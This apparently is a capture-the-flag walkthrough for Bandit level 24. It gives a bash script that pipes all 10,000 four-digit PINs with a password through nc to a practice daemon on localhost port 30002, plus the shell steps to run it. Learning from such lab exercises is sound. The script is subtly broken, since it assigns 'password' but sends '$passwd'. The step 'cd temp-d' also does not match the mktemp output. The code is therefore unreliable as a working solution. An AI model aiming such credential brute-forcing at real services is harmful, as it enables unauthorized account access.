 #level24

##Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

##Solution
Here we should write a script that generates all the combinations of 4 digit pin then append this with password with a space and then send it to the 30002 port
here first i made a temorary file and then create a script file 
write this code of line in the file using nano
Following is  the script
```
#!/bin/bash
password="currentPssword"
for i in {0000..9999}; do
            echo "$passwd $i"
done | nc localhost 30002  | grep -v Wrong | grep -v "I am the pincode checker for user bandit25"
```
then i changed the mode of script file and run it
here is the solutions
```
mktemp -d
cd temp-d
touch script.sh
nano script.sh
ls -la script.sh
chmod +x script.sh
./script.sh
rm script.sh
cd ~
rmdir temporaryDirectoryYouCreated

```